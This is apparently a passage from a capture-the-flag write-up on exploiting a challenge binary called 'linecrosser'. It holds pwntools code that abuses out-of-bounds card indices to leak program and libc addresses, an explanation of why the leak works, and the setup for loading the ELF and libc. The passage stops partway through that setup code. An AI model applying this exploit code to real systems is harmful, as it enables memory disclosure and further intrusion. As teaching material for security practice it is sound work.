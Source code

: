 ```python
        self.io.sendlineafter(b'Exit\n', b'3')
        self.io.sendlineafter(b'(2)?\n', b'1')
        self.io.sendlineafter(b'one?\n', str(index).encode())
        self.io.recvuntil(b'Answer: \'')
        data = self.io.recvuntil(b'\'\n1) Play\n', drop=True)
        if data == b'(null)':
            data = None
        return data

    def show_custom_card_prompt(self, index: int) -> tuple | None:
        self.io.sendlineafter(b'Exit\n', b'3')
        self.io.sendlineafter(b'(2)?\n', b'2')
        self.io.sendlineafter(b'one?\n', str(index).encode())
        self.io.recvuntil(b'Prompt (')
        int1 = int(self.io.recvuntil(b' completions): \'', drop=True), 10)
        data0 = self.io.recvuntil(b'\'\n1) Play\n', drop=True)
        if data0 == b'(null)':
            data0 = None
        return data0, int1
```

By inspecting the memory in `pwndbg`, we find offsets of an interest:

```python
# <main>
self.show_custom_card_prompt(33)

# <__libc_start_main+128 (+0x80)>
self.show_custom_card_prompt(42)

# [answers]
self.show_custom_card_prompt(-3)
```

Not everything is directly readable this way. Values that are invalid pointers
always crash `show_custom_card_answer()`, as it expects a `char*`. The
`show_custom_card_prompt()` is a bit different: as prompts are laid out in
memory as pairs of [`char*`, `unsigned long long`], only when a value at some
address `0x...0` is valid pointer, an arbitrary value at the address `0x...8`
can be leaked as an integer.

As we've already leaked both application and `libc` addresses, for now it's
enough to hook up the ELFs into our code.

The corresponding `libc.so.6` we copy from the challenge docker image:

```bash
docker create --name=linecrosser-tmp 'cybersecnatlab/challenge-jail@sha256:7bf77225063b039960f654307cf5d6f977f892ff548606357a2e8fe8067d0a88'
docker cp linecrosser-tmp:/lib/x86_64-linux-gnu/libc.so.6 .
```

Now we can add the following setup steps:

```python
    ...

    def __init__(self, remote_host, elf_path='./build/linecrosser', libc_path='./libc.so.6'):
        ...
        self.elf_path = elf_path
        self.libc_path = libc_path

    def connect(self):
      ...
      self.elf = ELF(self.elf_path)
      self.libc = ELF(self.libc_path)

    def setup_elf_and_libc(self):
```